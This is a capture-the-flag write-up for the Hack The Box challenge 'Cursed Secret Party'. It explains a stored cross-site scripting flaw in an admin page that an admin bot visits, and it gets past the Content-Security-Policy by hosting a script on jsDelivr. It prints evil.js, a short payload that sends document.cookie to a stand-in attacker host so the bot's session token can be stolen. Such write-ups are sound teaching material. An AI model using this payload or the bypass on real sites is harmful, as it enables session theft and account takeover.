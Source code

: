 # Cursed Secret Party
## Steps

1. Send a normal req.

![image](https://github.com/0jamaKig86/Hack-The-Box.ojmk/assets/95555712/ebb42324-1081-4f25-aeae-77bf62dd1cfe)


2. Check source, how it works ?? :
there is a route `/api/submit`, it gets our data to check and add into database, and then a `BOT` will visit `/admin` to colect our data and then renders them in `admin.html` but in `admin.html` has a problem

```
    <div class="card-header"> <strong>Halloween Name</strong> : {{ request.halloween_name | safe }} </div>
```
- We see that the `halloween_name` marked it as `safe`, it means the Cross-Site script atk (i have no ideal about it @@@)
Now, let's see how the bot works.

![image](https://github.com/0jamaKig86/Hack-The-Box.ojmk/assets/95555712/86863d2a-cd09-4a33-96af-f1c0f7fc1fed)


- The bot create a JWT token with flag and roles to be authenticated as an admin and then deletes all by goto(`.../admin/delete_all...`)

**Ideal**: we'll steal the cookie of bot.

- And final note is `Content-Security-Policy` header in `index.js`

```
app.use(function (req, res, next) {
    res.setHeader(
        "Content-Security-Policy",
        "script-src 'self' https://cdn.jsdelivr.net ; style-src 'self' https://fonts.googleapis.com; img-src 'self'; font-src 'self' https://fonts.gstatic.com; child-src 'self'; frame-src 'self'; worker-src 'self'; frame-ancestors 'self'; form-action 'self'; base-uri 'self'; manifest-src 'self'"
    );
    next();
});

```
- It means there's no injected JS files can execute in because there's no `inline` parameter in the `script-src` directive.

**Ideal** : create a public Gitbub repository and host our JS file on `https://cdn.jsdelivr.net`

- The format should be as follows:

`https://cdn.jsdelivr.net/gh/<github_username>/<repository_name>/<file_name>.js`

- For example: 

`https://cdn.jsdelivr.net/gh/0jamaKig86/code.py/evil.js`

- evil.js
```
var xhttp = new XMLHttpRequest();
xhttp.open('GET', 'http://BURP-CLIENT-ID/?' + document.cookie, true);
xhttp.send();
```
3. Final payload.

![image](https://github.com/0jamaKig86/Hack-The-Box.ojmk/assets/95555712/724ed2e2-50a7-43c1-85c0-10be88688802)


- Check burp-client.

![image](https://github.com/0jamaKig86/Hack-The-Box.ojmk/assets/95555712/160dd754-7db8-4891-8d34-a2db1ecad34b)


- Decode session.

![image](https://github.com/0jamaKig86/Hack-The-Box.ojmk/assets/95555712/d674d5a3-5fdb-49e5-9de4-bb111653d608)

